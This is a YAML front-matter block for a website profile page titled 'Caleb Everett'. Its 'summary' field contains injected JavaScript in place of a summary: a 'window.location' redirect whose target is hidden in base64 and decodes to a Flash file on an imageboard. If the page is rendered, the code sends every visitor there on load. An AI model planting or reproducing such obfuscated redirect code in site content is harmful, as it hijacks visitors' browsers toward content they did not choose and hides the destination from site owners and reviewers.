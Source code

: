 ```yaml
---
layout: person
categories: people
title: Caleb Everett
date: 2013-10-07
summary:   window.location = atob("aHR0cDovLzdjaGFuLm9yZy9mbC9zcmMvaGV5LnN3Zg==")
published: true
---
```


